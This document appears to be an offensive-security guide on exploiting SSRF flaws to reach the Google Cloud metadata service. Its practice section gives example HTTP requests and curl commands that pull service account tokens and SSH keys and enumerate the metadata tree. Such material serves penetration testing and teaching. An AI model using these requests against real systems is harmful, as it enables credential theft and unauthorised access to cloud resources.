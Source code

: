 ```yaml
---
title: Exploiting GCP Metadata Services via SSRF
description: Learn to exploit SSRF vulnerabilities in GCP for metadata extraction
  and cloud pivoting techniques.
keywords:
- Google Cloud Platform
- SSRF
- metadata service
- cloud security
- service account tokens
- HTTP headers
- exploitation techniques
---
```


# Google Cloud Platform (GCP)

## Context

In this guide, we will explore how to exploit Server-Side Request Forgery (SSRF) vulnerabilities to access and extract sensitive data from the Google Cloud Platform (GCP) metadata service. The primary objective is to demonstrate the potential for data extraction and cloud pivoting using compromised metadata. This requires an understanding of HTTP headers, web form structures, cloud service models, as well as SSRF and cloud metadata services exploitation techniques.

## Theory

### GCP Metadata Service Architecture

GCP instances host an internal metadata service at the URL `http://metadata.google.internal/computeMetadata/v1/`, which is meant for exclusive internal access. The metadata service architecture assumes that only the virtual machine (VM) or authorized internal processes can reach this endpoint. However, if an SSRF vulnerability exists, an attacker can exploit this trust assumption to send crafted requests to the metadata endpoint.

### Access Control and Header Requirements

Access to the GCP metadata requires the use of a special HTTP header: `Metadata-Flavor: Google`. This header ensures that requests aiming to access metadata are legitimate and originate from within the GCP environment. Exploiting SSRF vulnerabilities allows an attacker to inject this specific header, thereby bypassing certain access controls meant to protect the metadata.

### Sensitive Data in GCP Metadata

The metadata service on GCP can expose several critical pieces of information, including:

- Service account tokens, which grant access to GCP APIs and resources.
- SSH keys used for accessing instances.
- Project information and custom metadata defined by users.

Obtaining service account tokens can have severe security implications, such as unauthorized API access, privilege escalation, and potential lateral movement within the cloud environment.

### Recursive Metadata Access and Enumeration

An attacker can enumerate available metadata using SSRF to identify all accessible paths. This recursive access allows for the extraction of sensitive keys and project information, leading to further exploit opportunities within the cloud infrastructure.

## Practice

### SSRF Exploitation of GCP Metadata Service for Token Extraction

1. **Identify SSRF Injection Point**: Locate a vulnerable parameter or feature in the target web application that accepts user-supplied URLs. This forms the entry point for SSRF exploitation.

2. **Target the Token Endpoint**: Use the endpoint `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token` to aim for service account tokens.

   ```http
   GET /path?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1
   Host: vulnerable-site.com
   ```

3. **Craft HTTP Request with Required Header**: Prepare an HTTP request incorporating `Metadata-Flavor: Google` header to satisfy GCP’s access control mechanisms.

4. **Example Command for Metadata Token Extraction**:

   ```bash
   curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
   ```

5. **Trigger SSRF**: Execute the crafted request through the vulnerable application, thereby relaying the request to the internal metadata service.

6. **Expected Response**: A successful request yields an access token in JSON format.

   ```json
   {
       "access_token": "ya29.c.Elq...",
       "expires_in": 3599,
       "token_type": "Bearer"
   }
   ```

   Successfully obtaining this response indicates access to the service account token, enabling further cloud API exploitation.

### Recursive Enumeration of GCP Metadata via SSRF

1. **Initiate Recursive Enumeration**: Begin at the root of the metadata API.

   ```http
   GET /path?url=http://metadata.google.internal/computeMetadata/v1/ HTTP/1.1
   Host: vulnerable-site.com
   ```

2. **List Metadata Keys**: Craft requests with the `Metadata-Flavor: Google` header to list available metadata keys.

   ```bash
   curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/"
   ```

3. **Recursively Extract Metadata**: Proceed to request sub-paths, such as `project/attributes/` and `ssh-keys`, to collect comprehensive metadata details.

By following these steps, an attacker can enumerate and extract sensitive metadata, providing substantial information for potential further exploits.

## Tools

- **curl**
- **Burp Suite** 

These tools are fundamental for crafting and executing HTTP requests in SSRF exploitation scenarios.
